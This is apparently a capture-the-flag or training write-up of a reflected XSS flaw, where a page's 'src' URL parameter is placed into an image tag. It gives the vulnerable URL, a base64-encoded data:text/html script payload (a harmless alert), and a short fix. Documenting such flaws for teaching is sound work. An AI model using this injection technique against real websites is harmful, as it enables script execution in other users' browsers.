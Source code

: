 # 09_Why_put_that_there
img src attribute can be changed from url as it is stored there

## Method
Go to ?page=media&src=nsa 

## How to exploit
Base64 encode a script:
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg==
change get param src
data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==

## Solution
- use the src attribute of the img tag no need to store it in the url. If paths are an issue configure either a variable or the '/' path to point to the root of your web project.In this particular case just make a seperate page for each image that is needed